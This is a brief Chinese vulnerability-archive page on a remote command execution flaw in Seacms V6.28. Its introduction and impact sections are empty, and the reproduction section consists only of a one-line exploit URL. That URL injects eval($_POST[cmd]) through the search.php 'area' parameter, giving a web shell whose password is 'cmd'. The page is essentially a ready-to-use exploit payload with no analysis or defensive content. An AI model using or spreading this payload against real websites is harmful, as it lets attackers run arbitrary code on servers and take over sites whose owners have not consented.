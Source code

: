 ```yaml
---
title: "Seacms V6.28"
id: zhfly3113
---
```


# Seacms V6.28 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
一句话payload，密码cmd: `[http://0-sec.org/search.php?searchtype=5&tid=&area=eval($_POST[cmd])](http://0-sec.org/search.php?searchtype=5&tid=&area=eval(%24_POST%5Bcmd%5D))` 
```